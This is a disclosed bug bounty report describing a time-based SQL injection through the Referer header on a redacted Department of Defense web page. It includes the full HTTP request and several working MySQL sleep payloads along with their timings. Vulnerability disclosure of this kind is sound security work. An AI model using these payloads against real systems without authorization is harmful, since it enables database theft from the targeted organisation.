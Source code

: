 # [SQLI ]Time  Bassed Injection at ██████████ via referer header

## Report Details
- **Report ID**: 995122
- **URL**: https://hackerone.com/reports/995122
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-09-30T19:00:04.202Z
- **Disclosed**: 2020-10-16T19:46:54.949Z

## Reporter
- **Username**: yassinek3ch
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hi

the ████ was vulnerable to time bassed injection via referer header

#steps
  
1- copy the request to your burp suite :

```GET /DNCdb.php?alert= HTTP/1.1
Host: ███████
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
████=*
Upgrade-Insecure-Requests: 1
Referer: http://www.google.com/search?hl=en&q='+(select*from(select(sleep(7*7)))a)+' ```

the injection point is``` Referer: http://www.google.com/search?hl=en&q=*```

payload > '+(select*from(select(sleep(7*7)))a)+'  > 7*7 = 49.> 49,708 mills
█████

payload > '+(select*from(select(sleep(20)))a)+'  > 20 = 20,208 mills

██████████

payload>  '+(select*from(select(sleep(20+10)))a)+'  > 10+20=30 > 30,289 mills
██████████

## Impact

SQL Injection, attacker can dump the database of ████

## Attachments
No attachments

